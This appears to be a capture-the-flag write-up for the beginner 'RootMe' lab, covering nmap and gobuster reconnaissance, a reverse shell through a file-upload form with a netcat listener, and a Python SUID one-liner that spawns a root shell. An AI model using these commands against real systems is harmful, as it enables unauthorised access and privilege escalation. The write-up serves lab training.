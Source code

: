 # RootMe

A CTF for beginners, can you root me?

## Task 1 - Deploy the machine

Set up environment IP as IP_Machine

`export IP=10.10.234.161`

![task1-IP](./images/task1-IP.png)

## Task 2 - Reconnaissance

* Scan the machine, how many ports are open?
	
	nmap -sV $IP | tee -a nmap-default.txt

	File scan resulted [here](./files/nmap-default.txt)

	![task2-nmap](./images/task2-nmap.png)

* What version of Apache is running?
	
	![task2-version](./images/task2-version.png)

* What service is running on port 22?
	
	![task2-ssh](./images/task2-ssh.png)

* Find directories on the web server using the GoBuster tool. What is the hidden directory?
	
	gobuster dir -w /usr/share/wordlists/dirb/common.txt -u $IP | tee -a gobuster-default.txt

	File scan resulted [here](./files/gobuster-default.txt)

	![task2-gobuster](./images/task2-gobuster.png)
	

## Task 3 - Getting a shell

* Find a form to upload and get a reverse shell, and find the flag `user.txt`
	
	* Upload reverse shell 
		
		![task3-reverse](./images/task3-reverse.png)

	* Open terminal for netcat listening
	
		`nc -nvlp 8888`

		![task3-nc](./images/task3-nc.png)

	* Open file upload from website
	
		![task3-shell](./images/task3-shell.png)

	* Get access to server

		![task3-access](./images/task3-access.png)

	* Find and read file `user.txt`
	
		![task3-user-txt](./images/task3-user-txt.png)

## Task 4 - Privilege escalation

* Search for files with SUID permission, which file is weird? 

	`find / -type f -perm -4000 -ls 2>/dev/null`

	![task4-find](./images/task4-find.png)

* root.txt

	`/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

	![task4-root-txt](./images/task4-root-txt.png)



